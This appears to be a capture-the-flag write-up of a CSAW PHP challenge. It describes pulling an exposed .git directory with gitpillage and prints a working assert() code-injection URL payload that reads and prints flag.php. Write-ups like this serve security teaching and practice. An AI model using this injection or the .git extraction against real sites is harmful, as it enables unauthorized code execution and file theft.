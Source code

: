 ![description](images/description.png)

The challenge contains a link to a website:
![site index](images/website.png)

Going to the about tab reveals that the site uses PHP and git.
![about page](images/about.png)

The server has it's git directory public available:
![git directory](images/git.png)

I used https://github.com/evilpacket/DVCS-Pillage to download the git directory contents:

`./gitpillage.sh http web.chal.csaw.io:8000/`

This gives access to the source of index.php:
~~~~
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
<!DOCTYPE html>
<html>
	<head>

        [irrelevant html stuff]...

		<div class="container" style="margin-top: 50px">
			<?php
				require_once $file;
			?>
			
		</div>
		
		<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/1.12.4/jquery.min.js" />
		<script src="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/3.3.7/js/bootstrap.min.js" />
	</body>
</html>
~~~~

After trying various ways to sneak '..' into the url, I remembered that assertions are generally not advised to be used in production code (at least in Python and PHP), so I looked up the php docs on assertions. It turns out that the string passed to the assert is evaluated as php code, meaning that we can inject code using the $page parameter.

After a lot of testing I came up with the solution:
~~~~
http://web.chal.csaw.io:8000?page=', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('
~~~~

When evaluated by index.php, the first assert becomes:
~~~~
assert("strpos('templates/', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('.php', '..') === false") or die("Detected hacking attempt!");
~~~~
This gets past the first assert, opens the flag.php file, and exits, printing its contents before the assertion fails.
![flag](images/flag.png)


